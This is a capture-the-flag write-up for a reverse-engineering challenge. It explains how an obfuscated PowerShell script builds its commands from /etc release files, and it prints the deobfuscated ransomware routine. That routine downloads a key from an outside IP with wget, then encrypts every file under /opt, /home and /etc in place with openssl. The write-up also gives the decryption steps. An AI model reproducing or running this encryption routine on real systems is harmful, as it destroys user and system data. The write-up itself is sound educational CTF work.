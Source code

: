 # rev/bash.ps1

by Brandon

127 solves / 422 points

> ⚠️ WARNING: do not run this! this will actually mess up your system!
> 
> [bash.ps1](bash.ps1)
> 
> [enc](enc)

## Files
- [bash.ps1](bash.ps1): the obfuscated PowerShell script
- [enc](enc): the encrypted flag file

**Solvers**
- [alphabet.py](alphabet.py): a Python script to solve the alphabet used in obfuscation
- [bash-deob1.ps1](bash-deob1.ps1): first round of deobfuscation by variable renaming
- [bash-deob2.ps1](bash-deob2.ps1): fully deobfuscated script
- [key](key): the key file downloaded from `35.87.165.65:31337/key`

## Writeup

`bash.ps1` is an obfuscated PowerShell script that, when run, acts as a ransomware by encrypting many critical files on the system.

The letters of the main commands of interest are defined in a global string (called `$GLOBAL:ALPHABET` below) constructed from system-specific information of the victim's machine:

```powershell
function fun2 {
    $file_contents = (/bin/cat /etc/*release*).split('\n')
    $alphabet = (
        $file_contents[0] `
            += $file_contents[1].split('=')[0] `
            += $file_contents[2] `
            += $file_contents[3].split('=')[0] `
            += $file_contents[4].split('=')[0] `
            += $file_contents[5] `
            += $file_contents[6].split('=')[0] `
            += $file_contents[7].split('=')[0] `
            += $file_contents[8] `
            += $file_contents[9] `
            += $file_contents[10] `
            += $file_contents[11] `
            += $file_contents[12] `
            += $file_contents[13] `
            += $file_contents[14] `
            += $file_contents[15] `
            += $file_contents[16]
    ).Tochararray() + 0..9

    $alphabet = ( -join ($alphabet | sort-object | get-unique))
    $GLOBAL:ALPHABET = $alphabet
}
```

Note that the letters in `$GLOBAL:FILE` are sorted based on the Powershell ordering and deduplicated.

Commands are then elaborately executed as
```powershell
Invoke-Expression (
            "" + $GLOBAL:ALPHABET[48] ` # o
               + $GLOBAL:ALPHABET[49] ` # p
               + $GLOBAL:ALPHABET[41] ` # e
               + $GLOBAL:ALPHABET[47] ` # n
               + # ...
)
```

---
The revelation that the script was encrypting everything actually came from DeepSeek, which recognized the similar call structure to `openssl` commands. 
Slowly, by comparing common `openssl` invocations and the sorted nature of `$GLOBAL:ALPHABET`, I arrived at a subset of `$GLOBAL:ALPHABET` I was confident with. The remaining letters were then deciphered using `z3`.

The final alphabet is approximately
```
012345678 !-./:@ABCDEFGHIJKLMNOPQRSTUabcdefgilmnopqstuvwy
```

yielding the deobfuscated script:
```powershell
function fun3 {
    $KEY_URL = "35.87.165.65:31337/key"
    $KEY_FILE = "A" # filename
    /bin/wget $KEY_URL -q -O $KEY_FILE
}

function fun4 {
    foreach ($I in (find /opt/ -type f)) {
        openssl enc -aes-256-cbc -pass file:key -in  $I  -out  $I
    } 

    foreach ($I in (find /home/ -type f)) {
        openssl enc -aes-256-cbc -pass file:key -in  $I  -out  $I
    } 

    foreach ($I in (find /etc/ -type f)) {
        openssl enc -aes-256-cbc -pass file:key -in  $I  -out  $I
    } 

    foreach ($I in (find /vaq/ -type f)) {
        openssl enc -aes-256-cbc -pass file:key -in  $I  -out  $I 
    }
}
```

Visiting `35.87.165.65:31337/key` in the browser resulted in this text:
```
I understand that, without my agreement, Alpine F1 have put out a press release late this afternoon that I am driving for them next year. This is wrong and I have not signed a contract with Alpine for 2023. I will not be driving for Alpine next year.
```

Using that text as a key file, `enc` can finally be decrypted. However, I had problems with Windows corrupting the `enc` and `key` files in some way and had to use WSL to download and decrypt the files.

```bash
$ curl -O 35.87.165.65:31337/key
$ curl -o enc https://damctf-2025-assets.s3.us-west-2.amazonaws.com/assets/rev/bash-ps1/enc
$ openssl enc -d -aes-256-cbc -in enc -out dec -pass file:key
```

The resulting `dec` file:
```bash
$ cat dec
dam{unattended_arch_boxes_will_be_given_powershell}
```
